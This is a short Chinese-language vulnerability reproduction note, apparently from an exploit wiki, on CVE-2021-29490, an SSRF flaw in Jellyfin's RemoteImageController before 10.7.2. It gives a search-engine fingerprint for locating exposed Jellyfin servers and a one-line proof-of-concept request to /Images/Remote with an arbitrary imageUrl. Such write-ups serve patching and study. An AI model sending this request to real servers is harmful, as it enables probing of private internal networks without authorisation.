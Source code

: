 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

<a-checkbox checked>Jellyfin < 10.7.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jellyfin"</a-checkbox></br>

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![img](/assets/PeiQi-Wiki/img/1639026469087-918a2c7f-b015-4a28-a885-00f9a7267d75.png)

官方删除了某个方法

```go
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件 

`Jellyfin.Api/Controllers/RemoteImageController.cs`

![img](/assets/PeiQi-Wiki/img/1639026630565-84275017-5bbf-4835-8d2f-c7eaf1aff942.png)其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞	

![img](/assets/PeiQi-Wiki/img/1639026730098-5b7473f3-32b0-47ee-bb04-6f69c13202a0.png)

构造请求POC

```go
/Images/Remote?imageUrl=http://www.baidu.com
```

![img](/assets/PeiQi-Wiki/img/1639026826430-ef5e3b8a-d7cb-4957-a71d-b9af01c57c1b.png)